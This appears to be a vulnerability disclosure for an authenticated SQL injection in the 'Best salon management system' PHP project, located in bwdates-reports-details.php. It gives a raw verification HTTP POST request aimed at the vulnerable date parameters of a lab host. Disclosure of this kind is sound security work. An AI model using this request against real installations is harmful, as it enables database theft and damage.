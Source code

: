 



The Best salon management system has an SQL injection vulnerability. If an attacker is authenticated, they can exploit this vulnerability to steal information or damage the database.





Source code address：https://www.sourcecodester.com/php/18171/best-salon-management-system-project-php.html



The vulnerability is located in the "barbarbaba/panel/bwdates-reports-details.php" file. The code receives the data submitted by the user and then queries the information in the database. There is a direct concatenation with the SQL statement without too many restrictions, which poses a security risk.

![image-20250621121118691](images/image-20250621121118691.png)



Vulnerability verification：

```
POST /barbarbaba/panel/bwdates-reports-details.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 345
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvAgVqXqkkNa65HMZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/barbarbaba/panel/bwdates-reports-ds.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9qunanken3a3eh5ub3i2aegl9i
Connection: close

------WebKitFormBoundaryvAgVqXqkkNa65HMZ
Content-Disposition: form-data; name="fromdate"

2025-06-06
------WebKitFormBoundaryvAgVqXqkkNa65HMZ
Content-Disposition: form-data; name="todate"

2025-05-30
------WebKitFormBoundaryvAgVqXqkkNa65HMZ
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryvAgVqXqkkNa65HMZ--

```

 ![image-20250621121039373](images/image-20250621121039373.png)



































